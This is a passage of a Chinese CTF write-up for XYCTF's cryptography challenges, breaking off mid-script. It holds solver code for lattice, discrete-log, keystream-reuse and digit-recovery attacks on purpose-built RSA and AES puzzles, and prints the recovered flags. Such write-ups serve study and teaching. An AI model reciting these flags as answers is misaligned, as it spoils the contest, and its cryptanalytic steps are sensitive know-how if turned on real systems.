# x = 35   11 + 16i        377     3
# x = 36   6 + 6i          72      4
# x = 37   10 + 9i         181     11
# x = 38   1 + 12i         145     9
# x = 39   4 + 9i          97      12
# x = 40   4i              16      16
# x = 41   6 + 12i         180     10
# x = 42   2 + 10i         104     2
# x = 43   4 + 10i         116     14
# x = 44   10 + 7i         149     13
# x = 45   15 + 6i         261     6
# x = 46   3 + 4i          25      8
# x = 47   15 + 16i        481     5
# x = 48   1               1       1
# x = 49   3 + 7i          58      7
# x = 50   11 + 8i         185     15
# x = 51   11 + 16i        377     3
# x = 52   6 + 6i          72      4
# x = 53   10 + 9i         181     11
# x = 54   1 + 12i         145     9
# x = 55   4 + 9i          97      12
# x = 56   4i              16      16
# x = 57   6 + 12i         180     10
# x = 58   2 + 10i         104     2
# x = 59   4 + 10i         116     14
# x = 60   10 + 7i         149     13
# x = 61   15 + 6i         261     6
# x = 62   3 + 4i          25      8
# x = 63   15 + 16i        481     5
```

复数$$y_i$$有明显的循环结构，但是其阶和 $p$ 的关系不明确，瞎猜与 $\varphi(p) = p^2 - 1$ 有关（？）

但是模**长**平方再模**除**的循环结构很明确，不完全归纳猜测其阶即为 $p-1$

简单证明一下：

记某复数 $c$ 及其共轭为：

$$
c = (a+bi)\\ 
\bar{c} = (a-bi)
$$

则二者与模**长**平方的关系有：

$$
c \bar{c} = \bar{c} c = a^2 - b^2 i^2 = a^2 + b^2
$$

取正整数 $n$ 作为指数：

$$
(c\bar{c})^n = (\bar{c} c)^n =c^n \bar{c} ^ n = \bar{c} ^ n c^n = (a^2 + b^2)^n
$$

关键的一个关系：

$$
(c\bar{c})^n =c^n \bar{c} ^ n
$$

其中  $(c\bar{c}),(c^n \bar{c}^n) \in \mathbb{Z}$，就可以应用模**除**了

结合常规的dlp解题：

```Python
from Crypto.Util.number import *
p = 1127236854942215744482170859284245684922507818478439319428888584898927520579579027
re = 5699996596230726507553778181714315375600519769517892864468100565238657988087817
im = 198037503897625840198829901785272602849546728822078622977599179234202360717671908
Zp = Zmod(p)
g = Zp(3^2 + 7^2)
y = Zp(re ^ 2 + im ^ 2)
x = discrete_log(y,g)
print("x =",x)
print(long_to_bytes(x))
# x = 11043386733210093783917591062922767739440701223101839768310052590794700044066655
# b'___c0mp13x_d1p_15_3@5y_f0r_y0u___'
```

*真秒出啊，要不是多研究了一会理论就跑偏到bsgs了*

### [Solved]x0r

**By MetaMiku**

> nc版签到

```Python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os

flag = open("flag.txt", "rb").read()
key = os.urandom(16)
iv = os.urandom(16)
flag = pad(flag, 16)


def aes_encrypt(key, plaintext):
    cipher = AES.new(key, AES.MODE_ECB)
    return cipher.encrypt(plaintext)


def encrypt(key, plaintext, iv):
    ciphertext = b""
    for i in range(0, len(plaintext), AES.block_size):
        key_block = aes_encrypt(key, iv)
        ciphertext_block = bytes([plaintext[i + j] ^ key_block[j] for j in range(AES.block_size)])
        ciphertext += ciphertext_block
        iv = key_block
    return ciphertext


while 1:
    try:
        print("1.print\n2.input\n3.exit")
        a = input("> ")
        if a == "1":
            print((iv + encrypt(key, flag, iv)).hex())
        elif a == "2":
            ivs = bytes.fromhex(input("iv: "))
            inputs = bytes.fromhex(input("message: "))
            print(encrypt(key, inputs, ivs).hex())
        elif a == "3":
            exit(0)
        else:
            print("You need input 1,2,3")
    except:exit(0)
```

WebSocketReflectorX？这东西好啊（

$$
flag \xrightarrow[]{pad} flag_{pad} \xrightarrow[key]{iv} enc \xrightarrow[key]{iv} flag_{pad} \xrightarrow[]{unpad} flag
$$

利用AES对称加密直接把输出再给塞回输入得到flag

```Python
b'XYCTF{8fccb023-1f98-4a36-8e6a-628cd5e41f13}\n\x04\x04\x04\x04'
```

*我还以为有点难度呢，放到后面去搞，结果就这。。。*

### [Solved]factor3

**By MetaMiku**

> 这个e咋比n还大啊*逆天！*逆天！

```Python
from Crypto.Util.number import *
import random

flag = b'XYCTF{*****}'
m = bytes_to_long(flag)
def gainPrime():
    while True:
        x = random.getrandbits(256)
        y = random.getrandbits(256)

        if y % 2 == 0:
            continue

        p = x ** 3 + 3 * y ** 3
        if p.bit_length() == 768 and p % 2 == 1 and isPrime(p):
            return p

p, q = gainPrime(), gainPrime()
N = p * q
phi = (p ** 2 + p + 1) * (q ** 2 + q + 1)
d = getPrime(320)
e = inverse(d, phi)
c = d**2^m

print(f"N: {N}")
print(f"e: {e}")
print(f"c: {c}")

N: 913125842482770239379848062277162627509794409924607555622246822717218133091223291889541294440266178282194506242444509803611492259403578922020590849630191477864719052980160940803309686069818208833547621252544423652489179493083138385424424384165228024273745733240109761707533778691158938848158094054261174692601673435971526522219273943464877956131040249169850420336023942653021547841666224446678539579529590840999008107782784268926145671962239929431694391039559247
e: 494518390582436635999115147756676313570637682518235195828939117782099618734167908630788943568232122157772909140885391963441876427590731524706959546524212914108888799081844320513851526790475333924396837458796755678072486028072639014677580265244176441153444956871730684233063789931539669072735599696830757690822185323538738397827461580678488181113667710378657058297572328491762536595872579603698945272140918157163640403488075948987156585480146162739943419183496337465468187233821931312507662218106713861638334075899266373256620752680354704533272722692596941861606161634082613228896420520465402725359166156632884432690715903666803067996854084671477445131853993177110154928274312496230096270510089973592664248613332000290545537840595645944390047611474888693558676781309912289044962293014118087259307560444929227407113819165713213046898243995956550944640168932947118400215917515277554126694376415569909534496134700668701465649939
c: 4450931337369461482106945992542133557585962894030505065110870389112565329875502952762182372926117037373210509516570958483606566274369840551132381128665744266165792377925899683228751870742727716
```

和**factor1**一个套路，但是  $p = x ^ 3 + 3 y ^3 $ 这个条件似乎没用上（？）

$$
ed = k(p^2 + p + 1)(q^2 + q + 1) + 1\\ 
ed = k(p^2q^2 + p^2q + p^2 + pq^2 + pq + p + q^2 + q +1)
$$

记 $n = pq, s = p+q$

$$
ed = k(n^2 + sn - n + s + s^2 + 1)
$$

将已知项 $n^2 - n + 1$ 移项

$$
ed - k(n^2 - n + 1) = k(sn + s + s^2)
$$

造格

$$
\begin{bmatrix}
d &k
\end{bmatrix}

\begin{bmatrix}
e & 0 \\
-(n^2-n+1) & 1
\end{bmatrix}

=

\begin{bmatrix}
k(s^2 + ns + s)& k
\end{bmatrix}
$$

配平系数 $D = 2^{768\times3}$

$$
\begin{bmatrix}
d &k
\end{bmatrix}

\begin{bmatrix}
e & 0 \\
-(n^2-n+1) & D
\end{bmatrix}

=

\begin{bmatrix}
k(s^2 + ns + s)& kD
\end{bmatrix}
$$

解之

```Python
from gmpy2 import iroot
n = 913125842482770239379848062277162627509794409924607555622246822717218133091223291889541294440266178282194506242444509803611492259403578922020590849630191477864719052980160940803309686069818208833547621252544423652489179493083138385424424384165228024273745733240109761707533778691158938848158094054261174692601673435971526522219273943464877956131040249169850420336023942653021547841666224446678539579529590840999008107782784268926145671962239929431694391039559247
e = 494518390582436635999115147756676313570637682518235195828939117782099618734167908630788943568232122157772909140885391963441876427590731524706959546524212914108888799081844320513851526790475333924396837458796755678072486028072639014677580265244176441153444956871730684233063789931539669072735599696830757690822185323538738397827461580678488181113667710378657058297572328491762536595872579603698945272140918157163640403488075948987156585480146162739943419183496337465468187233821931312507662218106713861638334075899266373256620752680354704533272722692596941861606161634082613228896420520465402725359166156632884432690715903666803067996854084671477445131853993177110154928274312496230096270510089973592664248613332000290545537840595645944390047611474888693558676781309912289044962293014118087259307560444929227407113819165713213046898243995956550944640168932947118400215917515277554126694376415569909534496134700668701465649939
D = 2^(n.nbits()*3//2)
B = matrix([[         e, 0],
            [-(n^2-n+1), D]
    ])

L = B.LLL()
kD = abs(L[0,1])
assert kD % D == 0
k = kD // D
t = abs(L[0,0]) - 1 # t = k(ns + s + s^2)
assert t % k == 0
r = t // k # r = ns + s + s^2
assert iroot((n+1)^2 + 4 * r, 2)[1]
assert (-(n+1) + iroot((n+1)^2 - 4 * 1 * (-r), 2)[0]) % 2 == 0
s = (-(n+1) + iroot((n+1)^2 - 4 * 1 * (-r), 2)[0]) // 2 # s = p + q
p = (s + iroot(s^2 -4*n, 2)[0]) // 2
q = (s - iroot(s^2 -4*n, 2)[0]) // 2
assert p * q == n
print('p =',p)
print('q =',q)
# p = 1079692686288325812308630934214667048073665141240195252583556389192093937087035206847129125872559936616225942097278411602071282941911673739879515157769270737229378250560113256396308250699296075273110248314981762673299506406938725953
# q = 845727542734252771097508620366884787581346823455578404917525769041539439746914530374958818236462967773717478357930648479282951655380705183747821800053493097745787392338644671787997907165214166274630065657567039034950440073852768399
```

简单检验后解密明文

```Python
from Crypto.Util.number import *
e = 494518390582436635999115147756676313570637682518235195828939117782099618734167908630788943568232122157772909140885391963441876427590731524706959546524212914108888799081844320513851526790475333924396837458796755678072486028072639014677580265244176441153444956871730684233063789931539669072735599696830757690822185323538738397827461580678488181113667710378657058297572328491762536595872579603698945272140918157163640403488075948987156585480146162739943419183496337465468187233821931312507662218106713861638334075899266373256620752680354704533272722692596941861606161634082613228896420520465402725359166156632884432690715903666803067996854084671477445131853993177110154928274312496230096270510089973592664248613332000290545537840595645944390047611474888693558676781309912289044962293014118087259307560444929227407113819165713213046898243995956550944640168932947118400215917515277554126694376415569909534496134700668701465649939
c = 4450931337369461482106945992542133557585962894030505065110870389112565329875502952762182372926117037373210509516570958483606566274369840551132381128665744266165792377925899683228751870742727716
p = 1079692686288325812308630934214667048073665141240195252583556389192093937087035206847129125872559936616225942097278411602071282941911673739879515157769270737229378250560113256396308250699296075273110248314981762673299506406938725953
q = 845727542734252771097508620366884787581346823455578404917525769041539439746914530374958818236462967773717478357930648479282951655380705183747821800053493097745787392338644671787997907165214166274630065657567039034950440073852768399
phi = (p ** 2 + p + 1) * (q ** 2 + q + 1)
d = pow(e,-1,phi)
print(long_to_bytes(d**2 ^ c))
# b'XYCTF{I_love_to_read_the_crypto_paper_and_try_to_ak_them}'
```

### [Solved]happy_to_solve2

**By MetaMiku**

> so so happy

```Python
import random
from Crypto.Util.number import *
from secrets import flag


def get_happy_prime():
    while 1:
        p = int("".join([random.choice("123") for _ in range(512)]))
        q = int("".join([random.choice("567") for _ in range(512)]))
        if isPrime(p) and isPrime(q):
            return (p,q)

m = bytes_to_long(flag)
p ,q= get_happy_prime()
print(p,q)
n = p * q
e = 65537
print(n)
print(pow(m, e, n))
# 697906506747097082736076931509594586899561519277373830451275402914416296858960649459482027106166486723487162428522597262774248272216088755005277069446993003521270487750989061229071167729138628583207229945902389632065500739730301375338674342457656803764567184544685006193130563116558641331897204457729877920989968662546183628637193220770495938729301979912328865798266631957128761871326655572836258178871966196973138373358029531478246243442559418904559585334351259080578222274926069834941166567112522869638854253933559832822899069320370733424453856240903784235604251466010104012061821038897933884352804297256364409157501116832788696434711523621632436970698827611375698724661553712549209133526623456888111161142213830821361143023186927163314212097199831985368310770663850851571934739809387798422381702174820982531508641022827776262236373967579266271031713520262606203067411268482553539580686495739014567368858613520107678565628269250835478345171330669316220473129104495659093134763261751546990704365966783697780787341963138501
# 153383826085102296581238539677668696644156148059026868813759015106139131297135097831661048493079405226972222492151356105759235749502324303047037349410709021152255315429280760639113724345836532087970918453353723090554450581657930847674930226113840172368662838756446364482977092478979838209396761279326533419699056209983721842484996150025403009644653678928025861445324715419893797015875541525590135843027312322236085581571452084477262582966972702577136904385741443870527205640874446616413917231260133364227248928492574610248881137364204914001412269740461851747883355414968499272944590071623223603501698004227753335552646715567802825755799597955409228004284739743749531270833084850113574712041224896044525292591264637452797151098802604186311724597450780520140413704697374209653369969451501627583467893160412780732575085846467289134920886789952338174193202234175299652687560232593212131693456966318670843605238958724126368185289703563591477049105538528244632434869965333722691837462591128379816582723367039674028619947057144546
```

从 n$ 低位观察

对于个位：有且仅有 $\bar{3} \cdot \bar{7} = \bar{1}$ ，进位 $$\bar{2}$$ 

对于十位：有且仅有 $\bar{1} \cdot \bar{7} + \bar{7} \cdot \bar{3} + \bar{2} = \bar{0}$ 进位 $\bar{1}$ 

以此类推，破解 $(p,q)$ 的复杂度由 $O(9^n)$ 降低到 $O(9n)$ *~~，手算都成~~*

以防某低位先得到假根而某高位无解的情况，使用递归树而非单线循环*~~（虽然不知道有没有这种可能）~~*

解出 $(p,q)$ 并检验

```Python
from Crypto.Util.number import *
from itertools import product
import sys
sys.setrecursionlimit(1024)
n = 697906506747097082736076931509594586899561519277373830451275402914416296858960649459482027106166486723487162428522597262774248272216088755005277069446993003521270487750989061229071167729138628583207229945902389632065500739730301375338674342457656803764567184544685006193130563116558641331897204457729877920989968662546183628637193220770495938729301979912328865798266631957128761871326655572836258178871966196973138373358029531478246243442559418904559585334351259080578222274926069834941166567112522869638854253933559832822899069320370733424453856240903784235604251466010104012061821038897933884352804297256364409157501116832788696434711523621632436970698827611375698724661553712549209133526623456888111161142213830821361143023186927163314212097199831985368310770663850851571934739809387798422381702174820982531508641022827776262236373967579266271031713520262606203067411268482553539580686495739014567368858613520107678565628269250835478345171330669316220473129104495659093134763261751546990704365966783697780787341963138501
c = 153383826085102296581238539677668696644156148059026868813759015106139131297135097831661048493079405226972222492151356105759235749502324303047037349410709021152255315429280760639113724345836532087970918453353723090554450581657930847674930226113840172368662838756446364482977092478979838209396761279326533419699056209983721842484996150025403009644653678928025861445324715419893797015875541525590135843027312322236085581571452084477262582966972702577136904385741443870527205640874446616413917231260133364227248928492574610248881137364204914001412269740461851747883355414968499272944590071623223603501698004227753335552646715567802825755799597955409228004284739743749531270833084850113574712041224896044525292591264637452797151098802604186311724597450780520140413704697374209653369969451501627583467893160412780732575085846467289134920886789952338174193202234175299652687560232593212131693456966318670843605238958724126368185289703563591477049105538528244632434869965333722691837462591128379816582723367039674028619947057144546
res = [0,0]
def recursion(p,q):
    length = len(str(p)) + 1
    for i,j in product('123','567'):
        if str(int(i + str(p)) * int(j + str(q)))[-length:] == str(n)[-length:]:
            p_ = int(i + str(p))
            q_ = int(j + str(q))
            if p_ * q_ > n:
                break
            if p_ * q_ == n:
                print('p =',p_)
                print('q =',q_)
                global res
                res = [p_,q_]
            recursion(p_,q_)

recursion(3,7)
if res == [0,0]:
    exit(0)
p,q = res
assert p * q == n
phi = (p-1)*(q-1)
e = 65537
d = pow(e,-1,phi)
m = pow(c,d,n)
print(long_to_bytes(m)
# p = 12121111312111223223122131311333233122132311113333112131132223222322113121112211311111122233111221112223111221331112322222333332331231122322123321123123133323213331321113332333332231113221231213322231322132311333132111221123111323112322131123322323331121233332123131222321123312221122323311122131121132332322222321213223131211322122311113331331222212121313131121212322112122212323321311231113213233312223111132133321123211122222213321223332322123131333322121223233122311222211311133331123122122331232313131221113
# q = 57577765666565565655657656576766776756666756575575655557577765666657666756565556567577677665557556655765767767655556677756576555657667566766667676566655656776775755756775755667657675665677575667656666776656677656575665766556767757667556655755567556776556675656666757767667757657665757566667776555777667667675756767666767666557555757566576666656676677575575577567765566577557756566766557765676756756557667655756575677676567766776665777656776577676577576757576665777555555575575656555655657776566765775556575765677
# b'XYCTF{7f4b2241951976ce5ef6df44503209059997e5085d1bc21f6bef4d9effb29fd0}'
```

*~~不明白的点：生成的`512` 比特的"素数"真的能通过`isPrime()`检验吗？~~*

### [Solved]**fakeRSA**

**By MetaMiku**

```Python
from Crypto.Util.number import *

flag = b'XYCTF{******}'
n = ZZ(bytes_to_long(flag))
p = getPrime(int(320))
print(p)

G = Zmod(p)

def function(X, Y, Z):
    def part(a, b, c):
        return vector([9 * a - 36 * c, 6 * a - 27 * c, b])
    def parts(n):
        Gx.<a, b, c> = G[]
        if n == 0: return vector([a, b, c])
        mid = parts(n // 2)
        result = mid(*mid)
        if n % 2 == 0: return result
        else: return part(*result)
    return parts(n)(X, Y, Z)

print(function(69, 48, 52))


#1849790472911267366045392456893126092698743308291512220657006129900961168811898822553602045875909
#(1431995965813617415860695748430644570118959991271395110995534704629241309597572003500157255135707, 1011565891130611736600822618382801465506651972373410962205810570075870804325974377971089090196019, 784497518859893244278116222363814433595961164446277297084989532659832474887622082585456138030246)
```

将代码抽象为数学语言：

$$
\begin{bmatrix}
9 & 0 & -36\\
6 & 0 & -27\\
0 & 1 & 0\\
\end{bmatrix}
^ n
\begin{bmatrix}
69\\
48\\
52
\end{bmatrix}
\equiv
\begin{bmatrix}
e_x\\
e_y\\
e_z
\end{bmatrix}
\pmod{p}
$$

$$
\mathbf{M} ^ n \mathbf{v} \equiv \mathbf{w} \pmod{p} 
$$

将矩阵 $$$$ 对角化

$$
(\mathbf{P}^{-1}\mathbf{A}\mathbf{P})^n \mathbf{v} \equiv \mathbf{w} \pmod{p}\\
\mathbf{P}^{-1}\mathbf{A}^n\mathbf{P} \mathbf{v} \equiv \mathbf{w} \pmod{p}\\
\mathbf{A}^n (\mathbf{P} \mathbf{v}) \equiv \mathbf{P}\mathbf{w} \pmod{p}
$$

再解DLP即可

```Python
from Crypto.Util.number import *
p = 1849790472911267366045392456893126092698743308291512220657006129900961168811898822553602045875909
v = vector([69,48,52])
w = vector([1431995965813617415860695748430644570118959991271395110995534704629241309597572003500157255135707, 1011565891130611736600822618382801465506651972373410962205810570075870804325974377971089090196019, 784497518859893244278116222363814433595961164446277297084989532659832474887622082585456138030246])
M = matrix(Zmod(p),
           [[9, 0, -36],
            [6, 0, -27],
            [0, 1,   0]])
D,P = M.eigenmatrix_left()  # P * M = D * P
print('D = ', D)
print('P * w = ', P * w)
print('P * v = ', P * v)

Zp = Zmod(p)
g = Zp(D[0,0])
y = Zp((P*w)[0]) / Zp((P*v)[0])
n = discrete_log(y,g)
print('n =', n)
print(long_to_bytes(n))
```

已经跑了六七个小时了，还没出结果。。。麻了

经过查找资料，找到了博客 [离散对数 矩阵DLP - Lazzaro](https://lazzzaro.github.io/2020/05/07/crypto-离散对数/#矩阵DLP) 介绍了Jordan标准型

*~~什么？你说Hint早就写Jordan了？？？~~*

```Python
p = 1849790472911267366045392456893126092698743308291512220657006129900961168811898822553602045875909
Zp = Zmod(p) 
M = matrix(Zmod(p),
           [[9, 0, -36],
            [6, 0, -27],
            [0, 1,   0]])
J, P = M.jordan_form(transformation=True)
print(P * J * P^-1 == M)
print(J)
# True
# [3 1 0]
# [0 3 1]
# [0 0 3]
```

得到的Jordan标准型矩阵 $\mathbf{J}$ 只有一个若当块，易得：

$$
\mathbf{J}^n =
\begin{bmatrix}
3 ^ n & n \cdot 3^{n-1} & \frac{n(n-1)}{2} \cdot 3^{n-2} \\
& 3 ^ n &  n \cdot 3^{n-1} \\
& & 3^n
\end{bmatrix}
$$

$$
\mathbf{M}^{n} \mathbf{v} \equiv  (\mathbf{P} \mathbf{J} \mathbf{P}^{-1})^n \mathbf{v} \equiv \mathbf{P}\mathbf{J}^{n}\mathbf{P}^{-1}\mathbf{v} \equiv \mathbf{w} \\ 
\mathbf{J}^n \mathbf{P}^{-1} \mathbf{v} = \mathbf{P}^{-1} \mathbf{w}
$$

设

$$
\mathbf{x} \equiv \mathbf{P}^{-1} \mathbf{v} \\
\mathbf{y} \equiv \mathbf{P}^{-1} \mathbf{w}
$$

则有

$$
\mathbf{J}^n \mathbf{x} \equiv \mathbf{y}
$$

$$
\begin{bmatrix}
3 ^ n & n \cdot 3^{n-1} & \frac{n(n-1)}{2} \cdot 3^{n-2} \\
& 3 ^ n &  n \cdot 3^{n-1} \\
& & 3^n
\end{bmatrix}

\begin{bmatrix}
x_0\\
x_1\\ 
x_2
\end{bmatrix} 

\equiv

\begin{bmatrix}
y_0\\
y_1\\
y_2 
\end{bmatrix}
$$

$$
3^n x_1 + n \cdot 3^{n-1} x_2 \equiv y_1 \\
3^n x_2  \equiv y_2
$$

已知 $\mathbf{x},\mathbf{y}$ ，消元可解 $n$

$$
\frac{x_1}{x_2}y_2 + n \cdot \frac{y_2}{3x_2}x_2 \equiv y_1\\
n \cdot \frac{y_2}{3} \equiv y_1 - \frac{x_1}{x_2}y_2\\
n \equiv (y_1 - \frac{x_1}{x_2}y_2)\frac{3}{y_2}
$$

```Python
from Crypto.Util.number import *
p = 1849790472911267366045392456893126092698743308291512220657006129900961168811898822553602045875909
Zp = Zmod(p) 
v = vector(Zp, [69,48,52])
w = vector(Zp, [1431995965813617415860695748430644570118959991271395110995534704629241309597572003500157255135707, 1011565891130611736600822618382801465506651972373410962205810570075870804325974377971089090196019, 784497518859893244278116222363814433595961164446277297084989532659832474887622082585456138030246])
M = matrix(Zmod(p),
           [[9, 0, -36],
            [6, 0, -27],
            [0, 1,   0]])
J, P = M.jordan_form(transformation=True)
assert P * J * P^-1 == M
x = P^-1 * v
y = P^-1 * w
n = (y[1] - x[1]/x[2] * y[2]) * Zp(3) / y[2]
print('n =', n)
print(long_to_bytes(n))
# n = 11248090436223445352625693407089269386223255468324240386169564292825656540049141991068475773
# b'XYCTF{y0u_finally_f0und_t3h_s3cr3ts!!}'
```

### [Solved]Sign1n_Revenge

**By MetaMiku**

好家伙，用`ncat`链接了好几天，每次都这玩意↓

```HTML
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
        "http://www.w3.org/TR/html4/strict.dtd">
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
        <title>Error response</title>
    </head>
    <body>
        <h1>Error response</h1>
        <p>Error code: 400</p>
        <p>Message: Bad request syntax ('1').</p>
        <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
    </body>
</html>
```

然后突然想了一下，既然是html就直接浏览器访问一下试试


好好好，我说怎么明明是一堆解的签到题而我对着400发呆，我是zz

```HTML
from Crypto.Util.number import *
from tqdm import *
import gmpy2
flag=b'XYCTF{uuid}'
flag=bytes_to_long(flag)
leak=bin(int(flag))
while 1:
    leak += "0"
    if len(leak) == 514:
        break

def swap_bits(input_str):
    input_list = list(input_str[2:])
    length = len(input_list)

    for i in range(length // 2):
        temp = input_list[i]
        input_list[i] = input_list[length - 1 - i]
        input_list[length - 1 - i] = temp

    return ''.join(input_list)

input_str = leak
result = swap_bits(input_str)
a=result

def custom_add(input_str):
    input_list = list(input_str)
    length = len(input_list)
    
    for i in range(length):
        input_list[i] = str((int(input_list[i]) + i + 1) % 10)

    result = ''.join(input_list)
    return result


input_str = a
result = custom_add(input_str)
b=result
print(b)
#12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456799123455689902335567801124556899022346778911344577891223556890012345788912234677801124557789023346779001335668891223566780012455678012234568900133566889113346778902344567991223457790013356688912234677990134457789122355778011335668891124566799023445778012234667801134557889113346778001245567801223566890113455689911234677891224556899023
```

解

```HTML
from Crypto.Util.number import *
b = 12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456799123455689902335567801124556899022346778911344577891223556890012345788912234677801124557789023346779001335668891223566780012455678012234568900133566889113346778902344567991223457790013356688912234677990134457789122355778011335668891124566799023445778012234667801134557889113346778001245567801223566890113455689911234677891224556899023
res_list = list(str(b))
length = len(res_list)
a = []
for i in range(length):
    a.append(str((int(res_list[i]) - i - 1) % 10))

for i in range(length // 2):
    temp = a[i]
    a[i] = a[length - 1 - i]
    a[length - 1 - i] = temp

for i in range(8):
        print(long_to_bytes(int(''.join(a) ,2) >> i))
# ...
# b'flag{8be7b999-e11c-448e-88b3-6afc0914bfaf}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
# ...
```

### [Stuck]Complex_rsa

**By MetaMiku**

```Python
from Crypto.Util.number import *
from secrets import flag


class Complex:
    def __init__(self, re, im):
        self.re = re
        self.im = im

    def __mul__(self, c):
        re_ = self.re * c.re - self.im * c.im
        im_ = self.re * c.im + self.im * c.re
        return Complex(re_, im_)

    def __str__(self):
        if self.im == 0:
            return str(self.re)
        elif self.re == 0:
            if abs(self.im) == 1:
                return f"{'-' if self.im < 0 else ''}i"
            else:
                return f"{self.im}i"
        else:
            return f"{self.re} {'+' if self.im > 0 else '-'} {abs(self.im)}i"


def complex_pow(c, exp, n):
    result = Complex(1, 0)
    while exp > 0:
        if exp & 1:
            result = result * c
            result.re = result.re % n
            result.im = result.im % n
        c = c * c
        c.re = c.re % n
        c.im = c.im % n
        exp >>= 1
    return result


m = bytes_to_long(flag)
key = getRandomNBitInteger(m.bit_length())
c = m ^ key
com = Complex(key, c)
p = getPrime(512)
q = getPrime(512)
e = 9
enc = complex_pow(com, e, p * q)
print(enc)
print(Complex(p, q) * Complex(p, q))
# 66350931528185981323649477263900844564494528747802437244889229343520648562164950914433406604580038018765783183569276743239888668912948977370163046257917321742455772852779551569446155827368453262479370103326286297164105599131090881306108546341785251895116423206455175290083968296281375908109039893280371271943 + 65266730684129269806656018828265187384002656633231286337130178390517924611751697965395744944541329793503617856896706439809241745206839328124348693486741656130890593895436661857688522977866438805549144904296596887218275440542852887148071837153436265722614658566275517205322945316112048487893204059562830581004i
# -28814875173103880290298835537218644402443395484370652510062722255203946330565951328874411874019897676900075613671629765922970689802650462822117767927082712245512492082864958877932682404829188622269636302484189627580600076246836248427780151681898051243380477561480415972565859837597822263289141887833338111120 + 235362412848885579543400940934854106052672292040465052424316433330114813432317923674803623227280862945857543620663672974955235166884830751834386990766053503640556408758413592161122945636548462064584183165189050320898315823173824074873376450569212651128285746330837777597290934043912373820690250920839961482862i
```

先解 $$(p,q)$$：

$$
(p + qi)^2 = (p^2 - q^2) + 2pqi\\
p = \sqrt{\frac{\sqrt{(p^2 - q^2)^2 + (2pq)^2} + ( p^2 + q^2 )}{2}} \\
q = \sqrt{\frac{\sqrt{(p^2 - q^2)^2 + (2pq)^2} - ( p^2 + q^2 )}{2}}
$$

```Python
from gmpy2 import iroot
p2_q2 = -28814875173103880290298835537218644402443395484370652510062722255203946330565951328874411874019897676900075613671629765922970689802650462822117767927082712245512492082864958877932682404829188622269636302484189627580600076246836248427780151681898051243380477561480415972565859837597822263289141887833338111120
_2pq = 235362412848885579543400940934854106052672292040465052424316433330114813432317923674803623227280862945857543620663672974955235166884830751834386990766053503640556408758413592161122945636548462064584183165189050320898315823173824074873376450569212651128285746330837777597290934043912373820690250920839961482862
p = iroot((iroot(p2_q2 ** 2 + _2pq ** 2 ,2)[0] + p2_q2) //2 ,2)[0]
q = iroot((iroot(p2_q2 ** 2 + _2pq ** 2 ,2)[0] - p2_q2) //2 ,2)[0]
assert p**2 - q**2 == p2_q2 and 2 * p * q == _2pq
print('p =', p)
print('q =', q)
# p = 10205509456040823453782883291824829705816298450992336115902525676510986341532486274067943978039013674207011185602314114359146043975207543018267242312660911
# q = 11531144714660489617244423924607904114688972598683439999377362467380544567879231460623526800789918614728790840508257630983753525432337178000220918002499321
```

复数域下，$$\varphi(n) = (p^2-1)(q^2-1)$$

$$e = 9$$ ， $$\gcd(e,\varphi(n)) = e = 9$$ ，真是逆天啊

注意到 $$\gcd(e,p-1) = 1$$ ，先试试和Complex_dlp的一样的套路解一下`com`的模长平方

```Python
enc_re = 66350931528185981323649477263900844564494528747802437244889229343520648562164950914433406604580038018765783183569276743239888668912948977370163046257917321742455772852779551569446155827368453262479370103326286297164105599131090881306108546341785251895116423206455175290083968296281375908109039893280371271943
enc_im = 65266730684129269806656018828265187384002656633231286337130178390517924611751697965395744944541329793503617856896706439809241745206839328124348693486741656130890593895436661857688522977866438805549144904296596887218275440542852887148071837153436265722614658566275517205322945316112048487893204059562830581004
enc_norm_squared = enc_re ** 2 + enc_im ** 2
e = 9
d1 = pow(e, -1, p-1)
com_norm_squared = pow(enc_norm_squared, d1, p)
print(com_norm_squared)
# 4301761780480204429251803412474358134153252367473963804660894460722100513820515877567382043441994679170035722450305564907435674529526755313403621117497119
```

当flag不太长的时候(32bytes以内)，可以保证实际的`com`的模长平方小于$$p$$

直接解$$x^2 + y^2 = R$$，但是解不出来

再次尝试利用辐角关系解出 $$x,y$$，好的还是解不出来

最后怎么也解不出来，也没心情写试错思路了，这是比赛结束前最后一段的尝试代码

```Python
from decimal import *

def arctan(x, N:int):
    sign = Decimal(1)
    res = Decimal(0)
    xn = x
    x_squared = x*x
    for i in range(N):
        res += sign * xn / (2 * i + 1)
        sign *= -1
        xn *= x_squared
        if i % 65536 == 0:
            print(f"{i = }, \n{res}\n\n")
    return res

def sin(x, N):
    sign = Decimal(1)
    res = Decimal(0)
    xn = Decimal(x)
    coefficient = Decimal(1)
    for i in range(N):
        res += sign * coefficient * xn
        sign *= -1
        coefficient /= (2*i + 2) * (2*i + 3)
        xn *= x**2
    return res

N = 1024
getcontext().prec = N
enc_re, enc_im = 66350931528185981323649477263900844564494528747802437244889229343520648562164950914433406604580038018765783183569276743239888668912948977370163046257917321742455772852779551569446155827368453262479370103326286297164105599131090881306108546341785251895116423206455175290083968296281375908109039893280371271943, 65266730684129269806656018828265187384002656633231286337130178390517924611751697965395744944541329793503617856896706439809241745206839328124348693486741656130890593895436661857688522977866438805549144904296596887218275440542852887148071837153436265722614658566275517205322945316112048487893204059562830581004
com_squared = 4301761780480204429251803412474358134153252367473963804660894460722100513820515877567382043441994679170035722450305564907435674529526755313403621117497119
pi_str = '3.14159265358979323846264338327950288419716939937510582097494459230781640628620899862803482534211706798214808651328230664709384460955058223172535940812848111745028410270193852110555964462294895493038196442881097566593344612847564823378678316527120190914564856692346034861045432664821339360726024914127372458700660631558817488152092096282925409171536436789259036001133053054882046652138414695194151160943305727036575959195309218611738193261179310511854807446237996274956735188575272489122793818301194912983367336244065664308602139494639522473719070217986094370277053921717629317675238467481846766940513200056812714526356082778577134275778960917363717872146844090122495343014654958537105079227968925892354201995611212902196086403441815981362977477130996051870721134999999837297804995105973173281609631859502445945534690830264252230825334468503526193118817101000313783875288658753320838142061717766914730359825349042875546873115956286388235378759375195778185778053217122680661300192787661119590921642019893809525720106548586327886593615338182796823030195203530185296899577362259941389124972